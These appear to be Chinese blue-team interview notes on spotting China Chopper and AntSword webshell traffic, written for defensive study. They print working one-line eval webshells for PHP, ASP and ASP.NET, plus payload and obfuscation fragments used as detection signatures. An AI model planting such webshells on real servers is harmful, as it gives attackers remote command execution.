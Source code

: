 # Hvv面试题目（蓝初）

## 流量特征

https://blog.csdn.net/qq_53577336/article/details/125048353

### 菜刀流量特征

常见一句话(Eval)：

#### php一句话:

```
<?php @eval($_POST['caidao']);?>
```

#### ASP一句话:

```
<%eval request("caidao")%>
```

数据包末尾**i=A&z0=GB2312**

#### asp.net一句话:

```
<%@ Page Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>
```

> 1："Execute"Execute函数用于执行传递的攻击payload，这是必不可少的，这个等同于php类中eval函数； 
>
> 2：OnError ResumeNext，这部分是大部分ASP客户端中必有的流量，能保证不管前面出任何错，继续执行以下代码。
>
> 3：Response.Write和Response.End是必有的，是来完善整个操作的。

请求体中传递的payload为base64编码，并且存在固定的为

> QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J

unicode编码

### 中国蚁剑流量特征

#### php

每个请求体都存在 `@ini_set(“display_errors”, “0”);@set_time_limit(0)` 开头，并且存在 base64_decode 等字符。

#### ASP

OnError ResumeNext、Response.End、Response.Write

**Ex"&cHr(101)&"cute**

参数名大多以："_0x......="这种形式
